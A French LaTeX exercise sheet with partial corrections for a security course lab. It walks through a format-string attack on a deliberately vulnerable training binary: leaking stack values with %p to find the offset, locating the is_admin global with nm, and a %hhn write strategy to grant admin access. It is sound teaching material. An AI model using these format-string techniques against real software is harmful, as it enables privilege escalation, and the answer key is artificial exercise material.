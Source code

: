 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Correction}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet StackX64]
\begin{enumerate}
\item[\textbf{5b)}] Trouver l'adresse de la variable globale \texttt{is\_admin} avec \texttt{nm} ou \texttt{objdump} :
\begin{lstlisting}[style=GDBStyle]
nm formatx64 | grep is_admin
\end{lstlisting}

\item[\textbf{5c)}] Construire l'exploit \texttt{\%hhn} pour écrire une valeur non nulle dans \texttt{is\_admin}. La stratégie est :
\begin{enumerate}
    \item Placer l'adresse de \texttt{is\_admin} en fin de payload (après les spécificateurs de format)
    \item Utiliser du padding pour ajuster le nombre de caractères affichés
    \item Utiliser \texttt{\%hhn} avec l'offset approprié pour écrire dans \texttt{is\_admin}
\end{enumerate}

\item[\textbf{5d)}] Exécuter l'exploit et vérifier que le message \texttt{"Admin access granted!"} s'affiche.
\end{enumerate}

\begin{correction}

\textbf{5a)} Localisation du buffer sur la pile :
\begin{lstlisting}[style=GDBStyle]
$ ./formatx64 "AAAAAAAA.%p.%p.%p.%p.%p.%p.%p.%p"
=== FormatX64 - Format String Vulnerability ===

[DEBUG] is_admin is at address: 0x404040
[DEBUG] is_admin value (before): 0

AAAAAAAA.0x7fffffffdc30.0x7ffff7f9a2a0.(nil).0x7fffffffdd40.
0x7ffff7ffdaa0.0x4141414141414141.0x2e70252e70252e2e.0x252e70252e70252e
\end{lstlisting}

On voit \texttt{0x4141414141414141} en position \textbf{6}. Donc \texttt{k = 6} :
\begin{lstlisting}[style=GDBStyle]
$ ./formatx64 $(python3 -c "print('AAAAAAAA%6\$p')")
... 0x4141414141414141 ...
\end{lstlisting}

\textbf{5b)} Adresse de \texttt{is\_admin} :
\begin{lstlisting}[style=GDBStyle]
$ nm formatx64 | grep is_admin
0000000000404040 B is_admin
\end{lstlisting}
L'adresse est \texttt{0x404040}.


\end{correction}
\end{exercice}
\end{document}
